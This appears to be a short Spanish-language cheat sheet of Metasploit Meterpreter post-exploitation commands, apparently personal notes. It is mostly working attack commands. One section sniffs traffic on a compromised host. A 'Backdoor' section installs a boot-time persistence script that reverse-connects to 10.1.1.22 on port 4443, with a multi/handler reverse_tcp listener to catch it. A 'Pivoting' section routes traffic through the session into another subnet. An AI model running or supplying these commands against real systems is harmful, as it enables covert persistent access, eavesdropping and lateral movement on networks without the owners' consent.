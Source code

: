 

#### Snifer

```bash
use sniffer
sniffer_interfaces
sniffer_start 1 1024 # numero de interfaz y buffer
sniffer_dump 1 pruebas.pcap
sniffer_stop 1
```



#### Backdoor

```bash
run persistence -h
run persistence -A -L c:\\temp\\ -X -i 3600 -p 4443 -r 10.1.1.22
# si a ido bien devolvera datos de lo que hace incluido donde aloja los scripts

# para dejar que conecte automaticamente
resource  ~/.msf4/persistence/.../...rc
# esto lo que hace es borrar los archivos del persistence
```

- `-A` ejecutar al arrancar

- `-L` localización del payload

- `-X` conectar en el boot de windows

- `-i` periodo de reintento en segundos



Una vez que esta lanzado el persistence en la máquina vulnerable, tenemos que abrir nuestro puerto para que se conecte.

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost 10.1.1.22
set lport 4443
exploit
```



#### Pivoting

```bash
ipconfig
background

route add 10.1.2.0/24  1 # el 1 es el numero de sesion
route
```

